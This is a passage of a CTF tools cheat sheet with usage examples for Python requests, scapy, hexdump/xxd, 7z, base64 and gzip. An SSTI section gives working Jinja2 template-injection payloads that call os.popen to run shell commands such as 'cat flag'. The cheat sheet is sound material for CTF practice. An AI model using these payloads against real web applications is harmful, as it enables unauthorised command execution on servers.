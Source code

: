 ```python
import requests

# GET request
r = requests.get('http://target.com/api')
# POST with data
r = requests.post('http://target.com/login', data={'user': 'admin'})
```

### scapy

```python
from scapy.all import *

# Craft packet
packet = IP(dst="target.com")/TCP(dport=80)
send(packet)
# Sniff traffic
sniff(filter="tcp port 80", count=10)
```

## Analysis Utilities

### hexdump/xxd

```bash
# View file in hex
hexdump -C file.bin
xxd file.bin
# Convert hex to binary
echo "48656c6c6f" | xxd -r -p
```

### p7zip

```bash
# Extract archives
7z x archive.7z
7z x -p"password" encrypted.zip
7z l archive.zip  # List contents
```

## SSTI

```python
# Check environment (optional)
{{config}}

{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

## base64

```bash
echo -n "d3BqdkpBTXtqaGx6aHlfazNqeTl3YTNrX20wMjEyNzU4fQ==" | base64 -d
```

`gzip -d disko-1.dd.gz`

[Back to Top](#ctf-tools-examples--use-cases)
